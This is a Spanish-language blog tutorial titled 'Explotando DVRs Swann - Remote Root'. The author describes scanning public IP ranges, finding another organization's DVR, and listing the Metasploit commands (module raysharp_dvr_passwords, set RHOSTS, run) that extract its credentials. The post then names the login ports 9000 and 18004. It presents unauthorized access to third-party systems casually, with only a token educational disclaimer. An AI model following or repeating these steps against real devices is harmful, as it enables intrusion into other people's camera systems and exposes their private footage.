



Jonathan Posada Beltran
Informático.

Intereses: Seguridad Informática, Seguridad Perimetral, Seguridad CCTV, Software Libre, GNU/Linux, Redes e Infraestructura.
Explotando DVRs Swann - Remote Root
Buen día para todos comenzando con una sonrisa y un saludo a mis lectores, ticsysecurity es una nueva idea en conjunto con los compañeros de itodosoft hemos cambiado de razón social dándole un poco mas de seriedad al asunto esperando que sea de su agrado y poder llegar al núcleo de empresas que requieran de servicios informáticos.
Comenzando escanee un rango de direcciones ip publicas ya que estaba un poco lenta mi red y decidí escudriñar mi router llevándome a segmentos de red de otras organizaciones y me llamo mucho la atención un servicio que encontré en una dirección ip.

Herramientas (Navaja Suiza Doble Filo ;)
Esta Intrusión se realiza desde Kali Linux 1.0
- Nmap
- Metasploit
Primero que todo iniciar servicios de metasploit
#service postgresql start#service metasploit startEstablecer el Target - Dirección Host DVR Mapear el target y mirar servicios abiertos

Leyendo un poco sobre esto solo quería tener un acceso vía telnet ya que el servicio se encuentra abierto empeze a consultar usuarios y contraseñas por defecto llevándome a explotar el fallo por el puerto 9000 puerto de administración vía web para mirar las cámaras. El trabajo de un consultor es googlear de acuerdo a la marca encontrar posibles bugs en estos sistemas, la palabra clave en este caso fue Zmodo DVR que me llevaba a la marca Swann ;), vulnerable.
Abrir Metasploit
#msfconsoleya previamente con los servicios de postgresql y metasploit iniciados.
Para los que se aventuran o deciden estudiar en una institución o empíricamente (google) seguridad informatica, metasploit es un framework desarrollado en Ruby donde encontramos una gran cantidad de Exploits Payloads para diferentes ataques ya sea de hardware o Software, simplemente en la terminal de msfconsole podemos decirle search y el exploit que deseemos en este caso DVR.
#search dvrEn este caso vamos a usar el ultimo Exploit que se lista en la imagen.
use auxiliary/scanner/misc/raysharp_dvr_passwordsCon el comando show options vemos las opciones que nos permite declarar este exploit
>msf auxiliary(raysharp_dvr_passwords) >show optionsVamos a establecer el target los hilos y el resto lo dejamos automático.
msf auxiliary(raysharp_dvr_passwords) >set RHOSTS < Dirección IP > msf auxiliary(raysharp_dvr_passwords) >set THREADS 10msf auxiliary(raysharp_dvr_passwords) >runHappy Hacking Amigos 3;)
Loguearse app o internet explorer por el puerto 9000 en mobil es el puerto 18004
Este Tutorial se realiza con fines educativos no se hace responsable del manejo que se le de a este. echo "#po51"; #Saludos.